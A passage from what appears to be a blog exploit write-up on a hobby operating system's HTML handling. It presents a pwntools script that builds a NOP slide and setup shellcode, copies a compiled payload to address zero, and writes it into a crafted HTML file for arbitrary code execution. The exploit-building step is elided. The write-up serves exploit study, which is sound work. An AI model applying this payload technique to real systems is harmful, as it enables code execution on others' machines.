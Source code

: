 ![Exploit Over JMP](https://gfelber.dev/img/exploit_over_dbg.png)

We can now append our payload to the nop slide and get arbitary code execution

#### Setup Payload

Now we only need to create a payload. Because I didn't want to learn how SYSCALLS work in this Operating system i decided to create a setup script that copies a payload at the into the base address at `0x00000000` which makes it possible to compile payload with fasm.

```python
#!/bin/python
from pwn import *

HEADER = b'<html><body>'
MAX_LENGTH=0x100000

def nop(size):
  return b'\x90' * size

def tagger(tag):
  return b'<' + tag + b'/>'


# create exploit
...

# setup payload
 
# read payload from compiled binary
PAYLOAD_FILE='./test'
ENTRY = 0x24

with open(PAYLOAD_FILE, 'rb') as test:
 payload = test.read()

# set MOV destination (edi) to base address 0x00000000
setup = asm('xor edi, edi')
# MOV the entire payload to destination
setup += asm(f'mov ecx, {len(payload)}')
# trick we use to set the source to current EIP
get_eip = asm('call $+5')
print(get_eip.hex(), len(get_eip))
setup += get_eip
setup += asm('pop esi')
# Add offset from EIP to start of payload
setup += asm('add esi, 13')
# MOV PAYLOAD to destination
setup += asm('rep movsb')
# jmp to ENTRYPOINT
setup += asm(f'mov eax, {ENTRY}')
setup += asm(f'jmp eax')
# Combine setup and payload
payload = setup + payload
# Append nopslide
payload = nop(MAX_LENGTH-len(payload)) + payload


print(exploit.hex())
with open('test.htm', 'wb') as exploithtm:
  exploithtm.write(HEADER)
  exploithtm.write(tagger(exploit))
  # append payload
  exploithtm.write(payload)
```